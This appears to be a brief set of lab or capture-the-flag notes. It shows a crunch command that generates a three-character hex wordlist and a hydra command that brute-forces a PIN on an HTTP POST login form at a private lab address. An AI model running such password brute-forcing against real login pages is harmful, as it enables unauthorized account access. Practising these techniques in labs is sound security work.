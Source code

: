 ## Crunch
App to make a wordlist
- Command: `crunch 3 3 0123456789ABCDEF -o 3digits.txt`

## Hydra
Brute force http post form
- Command: `hydra -l '' -P 3digits.txt -f -v 10.10.14.190 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000`
